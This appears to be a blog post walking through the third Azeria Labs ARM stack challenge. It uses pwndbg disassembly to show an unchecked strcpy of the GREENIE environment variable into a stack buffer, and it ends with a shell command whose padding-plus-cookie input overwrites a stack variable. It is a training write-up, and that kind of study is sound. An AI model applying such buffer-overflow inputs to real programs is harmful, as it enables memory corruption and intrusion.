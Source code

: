 ```yaml
---
layout: post
title: "Smashing ARM Stack for Fun - Part III"
tags: [reversing, exploiting, ARM, iasm, azeria-labs]
inline_default_language: nasm
---
```


Another fast moving post
about exploiting the [third Arm challenge](https://github.com/azeria-labs/ARM-challenges)<!--more-->


## Setup

Stack allocation, not changes respect `stack0`{.none} or `stack1`{.none}.

```nasm
pwndbg> pdisass &main
 ► 0x104e4 <main>       push   {fp, lr}
   0x104e8 <main+4>     add    fp, sp, #4
   0x104ec <main+8>     sub    sp, sp, #0x50
   0x104f0 <main+12>    str    r0, [fp, #-0x50]
   0x104f4 <main+16>    str    r1, [fp, #-0x54]
```

Read of an environment variable named `"GREENIE"`{.cpp}:

```nasm
   0x104f8 <main+20>    ldr    r0, [pc, #0x6c]
   0x104fc <main+24>    bl     #getenv@plt <getenv@plt>

pwndbg> x/1wx 0x1056c
0x1056c <main+136>:     0x000105f4

pwndbg> x/1sb 0x000105f4
0x105f4:        "GREENIE"
```

The value is stored in the stack, loaded from it and
then compared with 0. In other words the program checks if
`getenv`{.none}
returned `NULL`{.cpp} or not.

```nasm
   0x10500 <main+28>    str    r0, [fp, #-8]
   0x10504 <main+32>    ldr    r3, [fp, #-8]
   0x10508 <main+36>    cmp    r3, #0
   0x1050c <main+40>    bne    #main+56 <main+56>
```

## The vulnerability

Following the *taken* branch we find the vulnerable `strcpy`{.none} call
that copies the content of the environment variable into a buffer in the
stack.

```nasm
 ► 0x1051c <main+56>    mov    r3, #0
   0x10520 <main+60>    str    r3, [fp, #-0xc]
   0x10524 <main+64>    sub    r3, fp, #0x4c
   0x10528 <main+68>    mov    r0, r3
   0x1052c <main+72>    ldr    r1, [fp, #-8]
   0x10530 <main+76>    bl     #strcpy@plt <strcpy@plt>
```

This is the memory layout of the stack before the call to
`strcpy`{.none}:

```python
100:20> ;! M[sp:]
[
        --
        |   \xee\xee\xee\xee   == char **argv
        |   \xdd\xdd\xdd\xdd   == int argc
buf ----|-->AAAA
  0x50  |   BBBB
        |   CCCC
        |   ... 13 more rows full of garbage ...
cookie----->\x00\x00\x00\x00   == explicit 0 set
ptr env-|-->\xcc\xcc\xcc\xcc   == char *env_var
        --
   0x8  |   \xbb\xbb\xbb\xbb   == fp
 fp ----|-->\xaa\xaa\xaa\xaa   == lr
        --
]
```

After the call the cookie is checked against 0x0d0a0d0a:

```nasm
   0x10534 <main+80>    ldr    r3, [fp, #-0xc]
   0x10538 <main+84>    ldr    r2, [pc, #0x34]
   0x1053c <main+88>    cmp    r3, r2
   0x10540 <main+92>    bne    #main+108 <main+108>

pwndbg> x/1wx 0x10574
0x10574 <main+144>:     0x0d0a0d0a
```

Following the path if the branch is **not** taken:

```nasm
pwndbg> pdisass &main+96
 ► 0x10544 <main+96>     ldr    r0, [pc, #0x2c]
   0x10548 <main+100>    bl     #puts@plt <puts@plt>

   0x1054c <main+104>    b      #main+124 <main+124>

pwndbg> x/1wx 0x10578
0x10578 <main+148>:     0x0001062c

pwndbg> x/1sb 0x0001062c
0x1062c:        "you have correctly modified the variable"
```

## The solution

To win we need 0x40 bytes for padding and the cookie `"\n\r\n\r"`{.cpp}.

```shell
pi@raspberrypi:~$ GREENIE="$(echo -en 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\n\r\n\r')" ./stack2
you have correctly modified the variable
```
